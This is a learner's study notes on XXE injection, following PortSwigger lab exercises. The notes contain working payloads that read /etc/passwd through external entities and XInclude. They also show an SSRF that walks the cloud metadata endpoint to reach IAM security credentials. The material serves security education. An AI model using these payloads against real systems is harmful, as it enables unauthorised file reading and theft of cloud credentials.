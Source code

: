 [[Portswigger]] [[week1]]
https://portswigger.net/web-security/xxe
(read this)
it is vulnerability  that let the attacker to interfere with application's processing XML , and sometimes allows the attacker to view server's system files  , and it can use to perform SSRF

and it can be arise because it use xml to transmit data between browser and the server and xml it self have a lot of potentially dangerous features

There are various types of XXE attacks:

- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response.
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system.
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

let's start with the labs and how we can use it : 
## first lab
in this this lab there's check product and it use XML to transmit data we can use it and make it transmit some files from  the server's system files , we can use this to inject this code   `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`  in xml  to retrieve the file /etc/passwd and you can check for the most useful files here [[File Inclusion]] in Path Traversal section , anyway after the injection it will be like this ``

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## second lab

in this lab we exploit XXE vulnerability to perform SSRF
and to do this use this command 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
then The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name. then you should add the name of the file , so if the folder name was `latest` you just edit this and it will be 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>`
and continue like this until it be like this 
`/latest/meta-data/iam/security-credentials/admin`
 
This should return JSON containing the `SecretAccessKey`.

## third lab

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.
To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`


## fourth lab(when you review this)

## the end(important)
### XXE attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

`POST /action HTTP/1.0 Content-Type: application/x-www-form-urlencoded Content-Length: 7 foo=bar`

Then you might be able submit the following request, with the same result:

`POST /action HTTP/1.0 Content-Type: text/xml Content-Length: 52 <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>`

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

## How to find and test for XXE vulnerabilities

The vast majority of XXE vulnerabilities can be found quickly and reliably using Burp Suite's web vulnerability scanner.

Manually testing for XXE vulnerabilities generally involves:

- Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.v
